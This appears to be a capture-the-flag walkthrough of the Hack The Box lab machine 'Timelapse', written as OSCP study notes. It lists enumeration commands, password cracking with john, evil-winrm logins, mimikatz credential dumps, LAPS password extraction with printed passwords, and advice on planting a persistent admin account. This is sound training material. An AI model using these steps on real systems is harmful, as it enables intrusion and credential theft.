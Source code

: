 ### Enumeration
```
IP=10.10.10.10
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 53
	- DNS
- 88
	- kerberos
- 135
	- RPC
- 139
	- RPC
- 389
	- Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
- 445
	- smb
- 464
	- kpasswd5
- 593
	- RPC
- 636
	- tcpwrapped
- 3268
	- Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
- 3269
	- tcpwrapped
- 5985
	- winrm
- 9389
	- .NET Message Framing
- 47001
	- RPC
- 49152-49158
	- RPC
- 49169
	- RPC
- 49170
	- RPC
- 49179
	- RPC
### Foothold
- DNS
	- nslookup
		- server $IP
		- 127.0.0.1
	- dig @$IP domain
		- If domain resolves
			- dig axfr @$IP domain
- RPC/ SMB
	- enum4linux $IP
	- crackmapexec smb $IP -u guest -p "" --rid-brute
	- crackmapexec smb $IP -u "" -p "" --pass-pol
	- rpcclient -U '' $IP
		- enumdomusers
		- queryusergroups RID
		- queryuser RID
- 445
	- smbclient -N -L //$IP
		- READ IPC$  Shares
		- Shares
			- Dev
				- winrm_backup.zip
					- legacyy_dev_auth.pfx
						- Requires a password to unzip the files
						- zip2john winrm_backup.zip > winrm_backup.hash
						- john  --wordlist=/usr/share/wordlists/rockyou.txt winrm_backup.hash
							- supremelegacy
					- pfx file also requires a password
						- Generates the key:
							- openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth
						- Generate pass hash and crack pass hash
							- pfx2john.py legacyy_dev_auth.pfx | tee legacyy_dev_auth.pfx.hash
							- john --wordlist=/usr/share/wordlists/rockyou.txt legacyy_dev_auth.pfx.hash
								- thuglegacy
						- Extract key
							- openssl rsa -in legacyy_dev_auth.key-enc -out legacyy_dev_auth.key
							- openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
						- Connect with key
							- evil-winrm -i $IP -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt
			- Helpdesk
				- LAPS files
	- nmap --script smb-vuln* -p135,139,445 $IP
### PE
#### Windows
- legacyy
	- whoami /all
		- privs
			- SeMachineAccountPrivilege, SeChangeNotifyPrivilege, SeIncreaseWorkingSetPrivilege Enabled
	- Root drive directory
	- net user USERNAME
		- Check group memberships
		- RDP, Development
	- systeminfo
		- `./wes.py ~/OSCP/boxes/BOX_NAME/systeminfo.txt  > ~/OSCP/boxes/BOX_NAME/systeminfo_exploits.txt`
	- history
		- (Get-PSReadLineOption).HistorySavePath
		- `svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV
	- Users with console
	- Services
		- PS1: `Get-Service | Select-Object -Property Name, DisplayName, Status
		- Unquoted
			- cmd
				- wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
				- wmic service get name,displayname,pathname
			- PS1
				- Get-CimInstance -ClassName win32_service | Select Name,State,PathName
			- icacls Filepath before .exe
				- Looking for W or F
	- netstat -ano
		- Active ports
	- mimkatz
		- mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
		- mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
- svc_deploy
	- Connect
		- evil-winrm -i $IP -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'
	- whoami /all
		- Nothing New
	- net user svc_deploy
		- LAPS_Readers
			- Allows account to manage local admin password
			- Get-ADComputer DC01 -property 'ms-mcs-admpwd'
				- Gives password for the administrator account
				- ms-mcs-admpwd     : uM[3va(s870g6Y]9i]6tMu{j
		- RDP
- administrator
	- Connect
		- evil-winrm -i timelapse.htb -S -u administrator -p 'uM[3va(s870g6Y]9i]6tMu{j'

### Credentials
### Lessons Learned
- Check system history
- If LAPS is enabled it rotates the password. Make sure to create a new admin account with a static password to get persistence